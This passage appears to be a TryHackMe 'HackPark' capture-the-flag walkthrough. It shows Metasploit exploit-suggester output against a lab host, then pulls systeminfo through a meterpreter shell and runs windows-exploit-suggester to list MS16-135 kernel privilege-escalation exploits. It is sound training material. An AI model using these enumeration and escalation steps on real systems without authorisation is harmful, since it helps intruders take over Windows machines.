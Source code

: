     [*] 10.10.229.64 - Collecting local exploits for x86/windows...
    [*] 10.10.229.64 - 34 exploit checks are being tried...
    [+] 10.10.229.64 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    nil versions are discouraged and will be deprecated in Rubygems 4
    [+] 10.10.229.64 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
    [+] 10.10.229.64 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [+] 10.10.229.64 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.

Now we're going to run windows-exploit-suggester. To set it all up:

1. Clone it/Download it:

    ┌─[user@parrot]─[~/gitclones]
    └──╼ $git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $cp ~/gitclones/Windows-Exploit-Suggester/windows-exploit-suggester.py .

2. Install Pip and xlrd if you haven't got it:

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $sudo apt install python-pip

    Install xlrd:

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $pip install xlrd --upgrade

3. Update the database for it:

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $./windows-exploit-suggester.py --update
    [*] initiating winsploit version 3.3...
    [+] writing to file 2020-07-31-mssb.xls
    [*] done

Now download systeminfo from box:

1. On your netcat listener (or in the meterpreter shell, just type "shell" to get a shell):

    cd c:\windows\temp
    systeminfo > sysinfo.txt

2. get out of that shell into meterpreter and type:
    
    download c:\windows\temp\sysinfo.txt

and finally run windows-exploit-suggester.py:

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $./windows-exploit-suggester.py -d 2020-07-31-mssb.xls -i sysinfo.txt

    Results:

    [*] initiating winsploit version 3.3...
    [*] database file detected as xls or xlsx based on extension
    [*] attempting to read from the systeminfo input file
    [+] systeminfo input file read successfully (ascii)
    [*] querying database file for potential vulnerabilities
    [*] comparing the 8 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
    [*] there are now 249 remaining vulns
    [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
    [+] windows version identified as 'Windows 2012 R2 64-bit'
    [*] 
    [E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
    [*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
    [*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)